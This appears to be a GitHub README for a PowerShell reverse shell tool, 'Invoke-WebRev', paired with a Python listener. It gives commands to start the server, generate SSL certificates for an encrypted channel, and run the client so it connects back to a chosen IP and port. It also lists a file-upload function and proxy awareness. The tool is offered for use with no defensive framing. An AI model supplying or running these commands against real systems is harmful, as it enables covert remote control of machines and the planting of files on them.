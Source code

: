 # Powershell HTTP/S Reverse Shell

##  server.py - server

![Alt text](images/revshell.jpg "Server")

On your server:
```
    python3 server.py IP PORT
    
    For SSL Reverse Shell:
        openssl genrsa -out private.pem 2048
        openssl req -new -x509 -key private.pem -out cacert.pem -days 9999
        python3 server.py --ssl IP PORT
```

## Invoke-WebRev.ps1 - client

On your client:
```
Import-Module .\Invoke-WebRev.ps1
Invoke-WebRev -ip IP -port PORT [-ssl]
```

# Extra functions
```
Upload
    Usage: upload /src/path/file C:\dest\path\file
```

# Features
    - SSL
    - Proxy Aware
    - Upload Function

# Future features
    - Autocomplete
    - Download function
